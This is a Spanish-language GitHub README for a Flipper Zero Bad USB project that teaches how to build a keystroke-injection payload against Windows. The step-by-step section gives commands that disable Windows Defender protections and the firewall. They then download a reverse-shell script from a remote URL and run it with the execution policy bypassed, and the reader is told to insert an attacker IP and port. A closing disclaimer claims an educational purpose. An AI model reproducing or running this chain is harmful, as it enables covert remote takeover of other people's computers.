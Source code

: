 # REVERSE-ZERO

![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/Designer.jpeg)



# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
      ```sh g
       git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
      ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.



# Conclusión 

Este proyecto está diseñado con fines educativos y de investigación en seguridad informática. Se recomienda su uso únicamente en entornos controlados y con el consentimiento explícito de los propietarios de los sistemas involucrados. El uso indebido de estas herramientas puede tener implicaciones legales y éticas. El autor no se responsabiliza de cualquier daño o consecuencia derivada de su uso inapropiado.






















